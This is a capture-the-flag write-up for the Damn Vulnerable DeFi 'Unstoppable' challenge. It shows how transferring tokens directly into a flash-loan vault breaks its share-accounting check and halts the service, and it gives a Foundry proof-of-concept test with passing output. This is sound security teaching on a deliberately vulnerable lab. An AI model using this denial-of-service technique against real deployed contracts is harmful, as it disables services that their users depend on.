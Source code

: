 # Challenge - Unstoppable

There’s a tokenized vault with a million DVT tokens deposited. It’s offering flash loans for free, until the grace period ends.

To catch any bugs before going 100% permissionless, the developers decided to run a live beta in testnet. There’s a monitoring contract to check liveness of the flashloan feature.

## Objective of CTF

Starting with 10 DVT tokens in balance, show that it’s possible to halt the vault. It must stop offering flash loans.

## Vulnerability Analysis

To stop the UnstoppableVault from providing flash loans normally, we need to examine whether any of the conditions in the flashLoan function can be made to fail, triggering a revert. The function can revert under the following four conditions:

-   The provided amount is 0.
-   The provided token does not equal the asset variable.
-   convertToShares(totalSupply) does not equal totalAssets().
-   The callback to the receiver's onFlashLoan function does not correctly return keccak256("IERC3156FlashBorrower.onFlashLoan").

Upon closer inspection, conditions 1, 2, and 4 are all determined by the caller's inputs and will trigger a revert based on those inputs. However, condition 3 is tied to the totalAssets() function, which returns the balance of the asset token in the UnstoppableVault. We can manipulate this condition by directly transferring the asset token into the UnstoppableVault contract, causing the calculated shares to mismatch with the actual balance. This discrepancy will result in an InvalidBalance error whenever anyone attempts to call the flashLoan function.

### Attack steps:

1. transfer the token to the vault directly.

## PoC test case

```solidity
// SPDX-License-Identifier: MIT
// Damn Vulnerable DeFi v4 (https://damnvulnerabledefi.xyz)
pragma solidity =0.8.25;

import {Test, console} from "forge-std/Test.sol";
import {DamnValuableToken} from "../../src/DamnValuableToken.sol";
import {UnstoppableVault, Owned} from "../../src/unstoppable/UnstoppableVault.sol";
import {UnstoppableMonitor} from "../../src/unstoppable/UnstoppableMonitor.sol";

contract UnstoppableChallenge is Test {
    address deployer = makeAddr("deployer");
    address player = makeAddr("player");
    address monitor = makeAddr("monitor");

    uint256 constant TOKENS_IN_VAULT = 1_000_000e18;
    uint256 constant INITIAL_PLAYER_TOKEN_BALANCE = 10e18;

    DamnValuableToken public token;
    UnstoppableVault public vault;
    UnstoppableMonitor public monitorContract;

    modifier checkSolvedByPlayer() {
        vm.startPrank(player, player);
        _;
        vm.stopPrank();
        _isSolved();
    }

    /**
     * SETS UP CHALLENGE - DO NOT TOUCH
     */
    function setUp() public {
        startHoax(deployer);
        // Deploy token and vault
        token = new DamnValuableToken();
        vault = new UnstoppableVault({_token: token, _owner: deployer, _feeRecipient: deployer});

        // Deposit tokens to vault
        token.approve(address(vault), TOKENS_IN_VAULT);
        vault.deposit(TOKENS_IN_VAULT, address(deployer));

        // Fund player's account with initial token balance
        token.transfer(player, INITIAL_PLAYER_TOKEN_BALANCE);

        // Deploy monitor contract and grant it vault's ownership
        monitorContract = new UnstoppableMonitor(address(vault));
        vault.transferOwnership(address(monitorContract));

        // Monitor checks it's possible to take a flash loan
        vm.expectEmit();
        emit UnstoppableMonitor.FlashLoanStatus(true);
        monitorContract.checkFlashLoan(100e18);

        vm.stopPrank();
    }

    /**
     * VALIDATES INITIAL CONDITIONS - DO NOT TOUCH
     */
    function test_assertInitialState() public {
        // Check initial token balances
        assertEq(token.balanceOf(address(vault)), TOKENS_IN_VAULT);
        assertEq(token.balanceOf(player), INITIAL_PLAYER_TOKEN_BALANCE);

        // Monitor is owned
        assertEq(monitorContract.owner(), deployer);

        // Check vault properties
        assertEq(address(vault.asset()), address(token));
        assertEq(vault.totalAssets(), TOKENS_IN_VAULT);
        assertEq(vault.totalSupply(), TOKENS_IN_VAULT);
        assertEq(vault.maxFlashLoan(address(token)), TOKENS_IN_VAULT);
        assertEq(vault.flashFee(address(token), TOKENS_IN_VAULT - 1), 0);
        assertEq(vault.flashFee(address(token), TOKENS_IN_VAULT), 50000e18);

        // Vault is owned by monitor contract
        assertEq(vault.owner(), address(monitorContract));

        // Vault is not paused
        assertFalse(vault.paused());

        // Cannot pause the vault
        vm.expectRevert("UNAUTHORIZED");
        vault.setPause(true);

        // Cannot call monitor contract
        vm.expectRevert("UNAUTHORIZED");
        monitorContract.checkFlashLoan(100e18);
    }

    /**
     * CODE YOUR SOLUTION HERE
     */
    function test_unstoppable() public checkSolvedByPlayer {
        // transfer token to the vault directly
        token.transfer(address(vault), INITIAL_PLAYER_TOKEN_BALANCE);
    }

    /**
     * CHECKS SUCCESS CONDITIONS - DO NOT TOUCH
     */
    function _isSolved() private {
        // Flashloan check must fail
        vm.prank(deployer);
        vm.expectEmit();
        emit UnstoppableMonitor.FlashLoanStatus(false);
        monitorContract.checkFlashLoan(100e18);

        // And now the monitor paused the vault and transferred ownership to deployer
        assertTrue(vault.paused(), "Vault is not paused");
        assertEq(vault.owner(), deployer, "Vault did not change owner");
    }
}
```

### Test Result

```
Ran 2 tests for test/unstoppable/Unstoppable.t.sol:UnstoppableChallenge
[PASS] test_assertInitialState() (gas: 57390)
[PASS] test_unstoppable() (gas: 62255)
Suite result: ok. 2 passed; 0 failed; 0 skipped; finished in 1.62ms (276.83µs CPU time)

Ran 1 test suite in 243.63ms (1.62ms CPU time): 2 tests passed, 0 failed, 0 skipped (2 total tests)
```
